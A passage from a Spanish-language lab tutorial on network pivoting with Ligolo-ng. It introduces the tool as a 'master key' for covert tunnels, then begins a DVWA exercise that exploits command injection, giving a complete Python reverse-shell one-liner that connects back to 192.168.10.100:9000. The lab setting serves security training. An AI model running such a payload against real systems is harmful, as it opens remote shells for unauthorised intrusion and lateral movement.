 Ligolo es una herramienta que te ayuda a abrir estas puertas y ventanas. Es como una llave maestra que te permite crear túneles secretos entre diferentes computadoras. Estos túneles te permiten moverte de un punto a otro de la red de forma segura y discreta.

En este laboratorio, se practican estas técnicas de movimiento lateral en un entorno controlado.

## Shell reversa y establecimiento de Ligolo-ng

### Shell reversa en DVWA

Para comenzar vamos a crear una shell reversa en nuestro punto de entrada que se trata de la primera máquina DVWA.

Para esto hacemos uso de cualquiera de las vulnerabilidades que permitan esto dentro de DVWA.

En este caso vamos a usar la inyección de comandos:

![Shell reversa](/assets/img/posts/cyberlab_pivoting/20241215_163127_Peek_2024-12-15_17-29.gif)

```bash
export RHOST="192.168.10.100";export RPORT=9000;nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'&
```
